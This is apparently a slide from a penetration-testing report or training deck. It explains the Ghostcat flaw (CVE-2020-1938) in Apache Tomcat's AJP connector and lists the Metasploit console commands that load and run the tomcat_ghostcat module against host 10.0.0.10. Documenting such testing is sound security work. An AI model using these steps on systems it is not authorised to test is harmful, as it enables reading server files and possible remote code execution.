

# Exploitation on Host 10.0.0.10
Apache Tomcat AJP Connector Request Injection (Ghostcat)
The Apache Tomcat AJP Connector Request Injection vulnerability, also
known as **Ghostcat (CVE-2020-1938)**, allows attackers to read or
include files from the server via the AJP protocol. This can lead
to information disclosure or remote code execution if sensitive files or
configuration data are exposed.
msf > use auxiliary/admin/http/tomcat_ghostcat
msf auxiliary(tomcat_ghostcat) > show actions
msf auxiliary(tomcat_ghostcat) > set ACTION < action-name >
msf auxiliary(tomcat_ghostcat) > show options
...show and set options...
msf auxiliary(tomcat_ghostcat) > run
6